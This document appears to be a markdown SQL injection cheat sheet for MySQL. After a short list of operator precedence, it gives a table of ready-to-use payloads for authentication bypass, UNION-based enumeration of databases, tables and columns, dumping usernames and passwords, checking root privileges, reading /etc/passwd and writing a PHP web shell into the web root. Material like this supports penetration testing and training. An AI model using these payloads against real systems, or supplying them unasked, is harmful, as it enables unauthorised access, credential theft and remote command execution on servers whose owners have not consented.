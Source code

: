 ## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
